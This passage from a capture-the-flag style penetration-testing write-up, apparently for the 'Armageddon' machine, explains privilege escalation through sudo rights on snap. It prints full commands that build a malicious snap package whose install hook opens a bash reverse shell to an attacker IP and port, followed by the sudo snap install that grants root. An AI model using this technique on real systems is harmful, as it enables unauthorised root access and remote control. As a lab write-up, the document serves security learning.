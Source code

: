 ## 8. Privilege Escalation

Sudo privileges analysis revealed that the user could execute `/usr/bin/snap` with root privileges. This presented a privilege escalation opportunity through malicious snap package installation.

### Snap Package Privilege Escalation

The following commands were executed on the local attack machine to create a malicious snap package:

```bash
# Install fpm package manager
sudo gem install fpm

# Create malicious snap package
COMMAND="bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" > meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

The malicious snap package was created successfully:

<figure style="text-align: center;">
    <img src="screenshots/armageddon-09.png">
</figure>

The package was transferred to the target system:

<figure style="text-align: center;">
    <img src="screenshots/armageddon-10.png">
</figure>

### Root Access Achievement

The malicious snap package was installed with dangerous and development mode flags:

```bash
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```
